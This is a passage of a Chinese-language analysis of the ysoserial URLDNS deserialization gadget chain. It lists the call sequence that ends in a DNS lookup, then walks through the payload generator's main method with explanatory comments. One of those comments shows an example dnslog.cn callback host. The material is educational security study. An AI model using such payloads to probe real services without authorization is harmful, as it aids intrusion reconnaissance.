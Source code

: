 ![img](assets/202304181613420.png)
这⾥ InetAddress.getByName(host) 的作⽤是根据主机名，获取其IP地址，在⽹络上其实就是⼀次DNS查询。

整个 URLDNS 的Gadget Chain就清晰了：

```plain
1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()
```

## URLDNS 序列化过程分析

程序入口在ysoserial.GeneratePayload，打开GeneratePayload.java，找到main方法，代码如下：

```java
public static void main(final String[] args) {
		if (args.length != 2) {
			printUsage();
			System.exit(USAGE_CODE);
		}
    //用打包出来的jar，生成序列化的文件时，ysoserial获取外面传入的参数，并赋值给对应的变量。
		final String payloadType = args[0]; // URLDNS
		final String command = args[1]; //http://64hu68.dnslog.cn
		//接着执行Utils.getPayloadClass("URLDNS");，根据全限定类名ysoserial.payloads.URLDNS，获取对应的Class类对象。
		final Class<? extends ObjectPayload> payloadClass = Utils.getPayloadClass(payloadType);
		if (payloadClass == null) {
			System.err.println("Invalid payload type '" + payloadType + "'");
			printUsage();
			System.exit(USAGE_CODE);
			return; // make null analysis happy
		}
		
		try {
      //通过反射创建Class类对应的对象，URLDNS对象创建完成。
			final ObjectPayload payload = payloadClass.newInstance();
      //然后执行执行URLDNS对象中的getObject方法
			final Object object = payload.getObject(command);
			PrintStream out = System.out;
			Serializer.serialize(object, out);
			ObjectPayload.Utils.releasePayload(payload, object);
		} catch (Throwable e) {
			System.err.println("Error while generating or serializing payload");
			e.printStackTrace();
```